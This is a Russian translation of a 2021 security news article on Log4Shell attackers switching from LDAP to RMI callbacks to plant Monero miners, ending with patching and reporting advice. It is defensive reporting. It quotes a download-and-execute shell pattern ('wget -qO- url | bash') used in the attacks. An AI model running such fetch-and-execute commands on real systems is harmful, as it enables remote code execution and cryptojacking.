 ```yaml
---
title: "Злоумышленники, использующие уязвимость Log4j, перешли к установке майнеров Monero через RMI"
date: "2021-12-16"
categories:
  - "Новости"
tags:
  - "Взлом"
thumbnail: "img/post/2021-12-16-log4j-attackers-switch-to-injecting-monero-miners-via-rmi/01.jpg"
lead: "Неизвестные злоумышленники, использующие уязвимость Log4j в Apache, переключили обратные ссылки URL сервиса LDAP на RMI или, возможно, задействовали сразу оба варианта, чтобы до максимума повысить шансы на успех."
pager: true
toc: false
sidebar: "right"
widgets:
  - "recent"
  - "taglist"
---
```


Такой переход является достойным особого внимания развитием продолжающейся атаки, и непременно должен учитываться теми, кто будет заниматься разработкой мер защиты, что позволит обезопасить все возможные векторы.
До настоящего времени подобная тенденция в основном наблюдалась в случае со злоумышленниками, пытавшимися путём взлома контролировать вычислительные ресурсы для майнинга Monero, но это вовсе не исключает того, что и другие недобросовестные пользователи в любой момент смогут прибегнуть к данному способу.

### _Переход с LDAP на RMI_

Большинство атак, целью которых становилась уязвимость Log4j "Log4Shell", проводилось через сервис LDAP (Lightweight Directory Access Protocol).

Переход на API RMI (Remote Method Invocation) сперва может показаться алогичным, учитывая тот факт, что данный механизм, как правило, является предметом дополнительных проверок и ограничений, но далеко не всегда это так.

Некоторые версии виртуальной машины JVM (Java Virtual Machine) не следуют жёсткой политике, и сам по себе RMI иногда может становиться более доступным каналом для реализации RCE (удалённого выполнения кода), чем LDAP.

Более того, запросы LDAP теперь можно уверенно считать одним звеньев в цепочке заражения, и поэтому сегодня они уже более тщательно отслеживаются механизмами антивирусной защиты.

Например, многие инструменты IDS/IPS в настоящее время фильтруют запросы, используя JNDI и LDAP, поэтому, существует вероятность, что на данном этапе RMI будет проигнорирован.

![02](/img/post/2021-12-16-log4j-attackers-switch-to-injecting-monero-miners-via-rmi/02.jpg)

_Запрос POST, который отправлялся уязвимым целям_  
_Источник: Juniper Labs_

В некоторых случаях специалистами из Juniper было отмечено, что в запросах POST (HTTP) присутствовали сразу оба сервиса: RMI и LDAP.

Как бы то ни было, у всех злоумышленников, пытавшихся воспользоваться уязвимостью Log4Shell, была одна и та же цель: отправка эксплойта, который был бы затем принят и обработан уязвимым сервером Log4j, после чего код был бы выполнен на целевом устройстве.

В результате проведения описанной выше атаки происходит переполнение оболочки Bash, и в итоге с удалённого сервера загружается скрипт оболочки.

«Этот код при помощи скриптового движка JavaScript выдаёт команду оболочки Bash, используя при этом конструкцию `$@|bash` для выполнения загруженного сценария, — говорится в отчёте [Juniper Labs](https://blogs.juniper.net/en-us/threat-research/log4j-vulnerability-attackers-shift-focus-from-ldap-to-rmi). — Во время выполнения этой команды оболочка Bash передаёт команды злоумышленника другому процессу Bash, `wget -qO- url | bash`, который в свою очередь скачивает и выполняет сценарий оболочки на целевой машине».

### _Взлом и использование вычислительных ресурсов с целью наживы_

При проведении атак, выявленных специалистами Juniper Labs, целью злоумышленников был майнинг Monero с помощью взломанных серверов. При этом всё выглядело абсолютно невинно, как если бы не делалось для того, чтобы «навредить кому бы то ни было».

![03](/img/post/2021-12-16-log4j-attackers-switch-to-injecting-monero-miners-via-rmi/03.jpg)

_Сообщение злоумышленников, найденное в загруженном сценарии оболочки_  
_Источник: Juniper Labs_

Целью майнеров стали системы Linux x84_64, а устойчивость присутствия обеспечивалась через подсистему cron.

Несмотря на то, что до сих пор целью большинства атак становились системы Linux, согласно информации, опубликованной [CheckPoint](https://research.checkpoint.com/2021/stealthloader-malware-leveraging-log4shell/), аналитиками компании были обнаружены первые выполняемые файлы Win32, использующие Log4Shell под названием StealthLoader.

### _Найти, обновить, отчитаться_

Единственным осуществимым средством защиты от одной из наиболее серьёзных обнаруженных за последнее время уязвимостей является обновление Log4j до версии [2.16.0](https://logging.apache.org/log4j/2.x/security.html).

Кроме того, сетевым администраторам рекомендуется пристально следить за разделом Apache по безопасности в ожидании обновлений, и устанавливать их сразу же после публикации.

Руководство по реализации защиты от атаки и подробную техническую информацию можно найти на [странице СISA](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance), посвящённой Log4Shell.

Помимо прочего, существует довольно [полный список продуктов](https://www.bleepingcomputer.com/news/security/log4j-list-of-vulnerable-products-and-vendor-advisories/), пострадавших от CVE-2021-44228, а в этом [репозитории GitHub](https://github.com/cisagov/log4j-affected-db) содержится постоянно обновляемый список справочных материалов от поставщиков.

Наконец, если вы вдруг заметите, что с вашими системами происходит что-то подозрительное, сообщите об этом в [ФБР](https://www.fbi.gov/resources/victim-services/seeking-victim-information/seeking-victims-of-log4j-vulnerability) или [CISA](https://www.cisa.gov/uscert/report) — они очень активно работают над тем, чтобы избежать дальнейшего ущерба и как-то исправить сложившуюся ситуацию.

---

_Источник: [Log4j attackers switch to injecting Monero miners via RMI](https://www.bleepingcomputer.com/news/security/log4j-attackers-switch-to-injecting-monero-miners-via-rmi/_

_Перевод: [Mr. Pickles](https://t.me/v1docq47)_  
_Коррекция: [Kukima](https://t.me/Kukima)_
